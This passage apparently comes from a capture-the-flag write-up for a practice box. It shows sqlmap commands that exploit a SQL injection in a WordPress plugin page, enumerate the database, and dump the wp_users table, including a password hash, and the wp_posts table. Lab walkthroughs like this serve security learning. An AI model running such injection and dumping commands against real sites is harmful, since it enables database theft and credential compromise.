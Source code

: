 The wordpress DB has 12 tables:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress --tables
...[snip]...
Database: wordpress              
[12 tables]                                       
+-----------------------+                
| wp_commentmeta        |                         
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+
...[snip]...

```

Dumping `wp_users` gives a hash for william.riker:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_users --dump ...[snip]...
Table: wp_users
[1 entry]
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| ID | user_url | user_pass                          | user_email                   | user_login    | user_status | display_name  | user_nicename | user_registered     | user_activation_key |
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
| 1  | <blank>  | $P$BFf47EOgXrJB3ozBRZkjYcleng2Q.2. | william.riker@enterprise.htb | william.riker | 0           | william.riker | william-riker | 2017-09-03 19:20:56 | <blank>             |
+----+----------+------------------------------------+------------------------------+---------------+-------------+---------------+---------------+---------------------+---------------------+
...[snip]...

```

Earlier I used the `lcars_dbpost.php` page to list all the posts in the DB, and there was one called passwords. I’ll dump the `wp_posts` table as well:

```

oxdf@parrot$ sqlmap -u enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1 --batch -D wordpress -T wp_posts --dump
...[snip]...
[14:22:25] [INFO] table 'wordpress.wp_posts' dumped to CSV file '/home/oxdf/.local/share/sqlmap/output/enterprise.htb/dump/wordpress/wp_posts.csv'

```
